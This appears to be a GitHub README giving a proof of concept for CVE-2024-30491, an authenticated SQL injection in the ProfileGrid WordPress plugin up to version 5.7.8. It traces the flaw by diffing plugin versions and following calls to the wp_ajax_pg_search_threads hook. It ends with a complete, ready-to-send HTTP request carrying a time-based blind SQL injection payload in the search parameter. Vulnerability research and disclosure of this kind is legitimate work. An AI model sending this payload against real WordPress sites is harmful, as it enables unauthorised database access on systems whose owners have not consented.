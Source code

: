 # CVE-2024-30491-Poc
## ProfileGrid <= 5.7.8 - Authenticated (Subscriber+) SQL Injection

https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/profilegrid-user-profiles-groups-and-communities/profilegrid-578-authenticated-subscriber-sql-injection

File: 

https://github.com/truonghuuphuc/CVE-2024-30491-Poc/blob/main/profilegrid-user-profiles-groups-and-communities.5.7.8.zip

https://github.com/truonghuuphuc/CVE-2024-30491-Poc/blob/main/profilegrid-user-profiles-groups-and-communities.5.7.9.zip


Build wordpress: ```docker-compose -f stack.yml up```

Step 1: Diff ProfileGrid 5.7.8 and ProfileGrid 5.7.9
![image](https://github.com/truonghuuphuc/CVE-2024-30491-Poc/assets/20487674/644fb3c9-df32-40e6-910f-24ce69218595)
File: includes\class-profile-magic-dbhandler.php => function get_all_result change in variable $additional
![image](https://github.com/truonghuuphuc/CVE-2024-30491-Poc/assets/20487674/6d372af1-1558-439b-9263-df5052cf63f3)
Check function pm_filter_addtional_query_parameter in file includes\class-profile-magic-dbhandler.php (ProfileGrid 5.7.9) it seems to check for keywords that are capable of sql injection
![image](https://github.com/truonghuuphuc/CVE-2024-30491-Poc/assets/20487674/4a6e697e-b617-4744-991d-658d68ca740f)

Step2: Focus plugin ProfileGrid 5.7.8 . I search for functions that call the function get_all_result.
I found function pm_messenger_search_threads in file includes\class-profile-magic-chat-system.php call function get_all_result.
![image](https://github.com/truonghuuphuc/CVE-2024-30491-Poc/assets/20487674/c6ab397e-d4e9-4551-aabb-4fa7816550c3)

Step3: I search for functions that call the function pm_messenger_search_threads

File: public\class-profile-magic-public.php function pg_search_threads call function pm_messenger_search_threads
![image](https://github.com/truonghuuphuc/CVE-2024-30491-Poc/assets/20487674/87e303d7-095b-42ce-949f-f59613159a98)

Step4: 
File: includes\class-profile-magic.php
I found registering an action and hook name `wp_ajax_pg_search_threads`. When this hook is run, the `pg_search threads` function is called to process the request and return the results.
![image](https://github.com/truonghuuphuc/CVE-2024-30491-Poc/assets/20487674/990ee72d-c168-46c6-b350-932152419b96)

Exploit:
```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: <Host>
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Cookie: {{Cookie}}
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 60

action=pg_search_threads&search='+and+sleep(if(1=1,5,0))--+-

```


https://github.com/truonghuuphuc/CVE-2024-30491-Poc/assets/20487674/591033b5-94cd-4bf2-966e-b28c2bd592f5

